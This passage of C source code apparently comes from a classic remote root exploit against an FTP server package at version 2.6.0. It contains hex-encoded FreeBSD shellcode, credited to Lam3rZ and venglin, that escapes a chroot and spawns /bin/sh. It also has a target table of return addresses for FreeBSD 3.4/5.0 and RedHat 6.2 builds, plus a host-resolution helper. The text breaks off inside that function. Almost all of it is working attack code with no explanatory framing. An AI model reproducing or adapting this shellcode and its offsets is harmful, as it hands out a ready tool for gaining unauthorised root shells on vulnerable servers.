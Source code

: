     char bsdcode[] = /* Lam3rZ chroot() code rewritten for FreeBSD by venglin */
        "\x31\xc0\x50\x50\x50\xb0\x7e\xcd\x80\x31\xdb\x31\xc0\x43"
        "\x43\x53\x4b\x53\x53\xb0\x5a\xcd\x80\xeb\x77\x5e\x31\xc0"
        "\x8d\x5e\x01\x88\x46\x04\x66\x68\xff\x01\x53\x53\xb0\x88"
        "\xcd\x80\x31\xc0\x8d\x5e\x01\x53\x53\xb0\x3d\xcd\x80\x31"
        "\xc0\x31\xdb\x8d\x5e\x08\x89\x43\x02\x31\xc9\xfe\xc9\x31"
        "\xc0\x8d\x5e\x08\x53\x53\xb0\x0c\xcd\x80\xfe\xc9\x75\xf1"
        "\x31\xc0\x88\x46\x09\x8d\x5e\x08\x53\x53\xb0\x3d\xcd\x80"
        "\xfe\x0e\xb0\x30\xfe\xc8\x88\x46\x04\x31\xc0\x88\x46\x07"
        "\x89\x76\x08\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c"
        "\x52\x51\x53\x53\xb0\x3b\xcd\x80\x31\xc0\x31\xdb\x53\x53"
        "\xb0\x01\xcd\x80\xe8\x84\xff\xff\xff\x30\x62\x69\x6e\x30"
        "\x73\x68\x31\x2e\x2e\x31\x31\x76\x65\x6e\x67\x6c\x69\x6e"
        "\x40\x6b\x6f\x63\x68\x61\x6d\x2e\x6b\x61\x73\x69\x65\x2e"
        "\x63\x6f\x6d";

    struct platforms
    {
        char *os;
        char *version;
        char *code;
        int align;
        int eipoff;
        long ret;
        long retloc;
        int sleep;
    };

    struct platforms targ[] =
    {
        { "FreeBSD 3.4-STABLE", "2.6.0-ports", bsdcode, 2, 1024, 0x80b1f10, 0xbfbfcc04, 0 },
        { "FreeBSD 5.0-CURRENT", "2.6.0-ports", bsdcode, 2, 1024, 0x80b1510, 0xbfbfec0c, 0 },
        { "FreeBSD 3.4-STABLE", "2.6.0-packages", bsdcode, 2, 1024, 0x80b1510, 0xbfbfe798, 0 },
        { "FreeBSD 3.4-STABLE", "2.6.0-venglin", bsdcode, 2, 1024, 0x807078c, 0xbfbfcc04, 0 },
        { "RedHat Linux 6.2", "2.6.0-RPM", linuxcode, 2, 1024, 0x80759e0, 0xbfffcf74, 0 },
        { "RedHat Linux 6.2", "2.6.0-RPM", linuxcode, 2, 1024, 0x80759e0, 0xbfffd074, 0 },
        { "RedHat Linux 6.2", "2.6.0-RPM", linuxcode, 2, 1024, 0x80759e0, 0xbfffcf84, 0 },
        { "RedHat Linux 6.2", "2.6.0-RPM", linuxcode, 2, 1024, 0x80759e0, 0xbfffd04c, 0 },
        { "RedHat Linux 6.2-SMP", "2.6.0-RPM", linuxcode, 2, 1024, 0x80759e0, 0xbfffd0e4, 0 },
        { NULL, NULL, NULL, 0, 0, 0, 0 }
    };

    long getip(name)
    char *name;
    {
        struct hostent *hp;
        long ip;
        extern int h_errno;

        if ((ip = inet_addr(name)) < 0)
        {
            if (!(hp = gethostbyname(name)))
            {
                fprintf(stderr, "gethostbyname(): %s\n",
                    strerror(h_errno));
                exit(1);
            }
            memcpy(&ip, (hp->h_addr), 4);
        }
